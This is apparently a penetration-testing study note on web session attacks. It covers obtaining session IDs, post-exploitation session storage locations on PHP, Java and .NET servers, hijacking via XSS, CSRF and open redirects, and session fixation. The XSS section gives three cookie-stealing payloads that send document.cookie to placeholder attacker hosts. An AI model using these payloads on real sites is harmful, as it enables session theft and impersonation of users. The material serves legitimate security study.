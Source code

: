 ### General Notes

These are attacks that are related to the [[Sessions]] of users.
- A session is used to continuously identify users, such that already known information doesn't need to be retransmitted.
- A user on a web application is said to have a session such that it informs the servers about the identity of the user as the user interacts with the web application.
 
If an attacker manages to grab a hold of a user session, then the attacker can impersonate that user and perform actions acting as the user.

---
### Obtaining Session Identifiers

There are several ways to have access to session identifiers belonging to another user:
- Traffic sniffing using a tool like [[Wireshark]].
- [[Cross Site Scripting (XSS)]]: crafting an XSS payload that sends to the attacker the user session information.
- Browser history.
- Log diving
- Access to a database with session information.

#### Obtaining Identifiers Post Exploitation 

Given the case that the server has already been exploited, these methods below are ways of obtaining the session identifiers given access to the server.

###### PHP Session IDs: `PHPSESSID`

The location where session IDs are saved on a PHP server is identified in the `PHP.ini` file in an entry called `session.save_path`.
- Therefore, the first step is identifying *where* the `PHP.ini` file is, and then checking the value of the `session.save_path` variable.
```bash
locate php.ini
cat /path/of/php.ini | grep "session.save_path"
```

The output of this command will tell us where the session identifiers are stored.
- The files in this directory are of the format: `sess_valueofphpsessid`.

###### Java Session IDs:

The `manager` element is responsible for creating and storing information about [[HTTP]] sessions.
- The session data is stored in either a default location called `SESSIONS.ser`, or in a storage location chosen by the `Store` element.
- More info [here](https://tomcat.apache.org/tomcat-6.0-doc/config/manager.html).

###### .NET Session IDs

Session data can be found in:
- The application worker process (aspnet_wp.exe) - This is the case in the _InProc Session mode_.
- StateServer (A Windows Service residing on IIS or a separate server) - This is the case in the _OutProc Session mode_.
- An SQL Server

More info:  [Introduction To ASP.NET Sessions](https://www.c-sharpcorner.com/UploadFile/225740/introduction-of-session-in-Asp-Net/).

---
### Session Hijacking

The attacker takes advantage of insecure session identifiers and finds a way to obtain them.
- The attacker then uses them to authenticate to the server and impersonate the victim.

Below are a list of techniques that can be used to perform session hijacking.
##### Using [[Cross Site Scripting (XSS)]]

Once an XSS vulnerability is found, it can be used to perform session related attacks.

For XSS to be used to obtain session cookies:
- The cookies should be carried in all [[HTTP]] requests.
- The cookies should be accessible by JavaScript, that is, the `httpOnly` flag should be off.

To obtain the session cookie, the JavaScript payload must interact with the `document.cookie` object, and somehow send it to the attacker.
- This can be done manually by setting up a listener on the attacker machine.
- Or by using tools, like [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/).

Some common XSS scripts to send the cookie to the attacker machine.
```JavaScript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>

<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http:LINK/log.php?c=' + document.cookie;"></video>

<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

- For the second script, we assume there is a `log.php` file hosted at the machine with the given IP that can read the value of the `c` query parameter that we send as the cookie.
- Using [[netcat]] is also option, where we simply set up a listener, and the script sends a request to the listener address with the cookie as a parameter in the URL. 

> After the session cookie is obtained by the attacker, the attacker now has the ability to use this session ID and impersonate the user by hijacking the user session.

##### Using [[Cross Site Request Forgery (CSRF)]]

This is a technique that requires a user to interact with a malicious website that performs an action for them.
- The users need to be logged in for the attack to work, the attack being performing an action for the user that they do not intend to do.

> This can be done by making the user visit a website that we create, and this fake website performs an action like submitting a form to the actual website that they thought they were at.

##### Using Open Redirects

This is an attack where a website contains a vulnerability in a redirection in one of its pages.
- If the website blindly follows the redirection URL without implementing any checks, then an attacker can control the destination.

---
### Session Fixation

This attack takes place when an attacker fixes a valid session ID and then tricks the victim to log into the web application with this fixed ID that the attacker knows and specifies.
- Once the user logs in with the previously known session, the attacker can then hijack that session, allowing the attacker to impersonate the victim user.

> The goal of session fixation is to reach session hijacking.

To perform this attack, there are 3 steps to follow:
1. *Obtain a valid session identifier*, which can be done authenticating as a user, or by simply opening the web application.
2. *Fixate this valid session identifier*, which is the case if the session value remains the same before and after logging in **AND** the session ID can be accepted from the URL query parameters or `POST` data parameters.
3. *Trick the victim into establishing a session using the fixed session ID*, which can be done by crafting a URL and making the victim click it, thus, the web application assigns the session value to that user.

##### Identifying Session Fixation

Check if there are any valid session identifier values **present in the URL**, and if its value is **propagated to a cookie** on the webpage.
- Try testing it by entering a random value in the parameter, and see if this value gets saved in the cookie. If that is the case, then there is the fixation vulnerability.

---


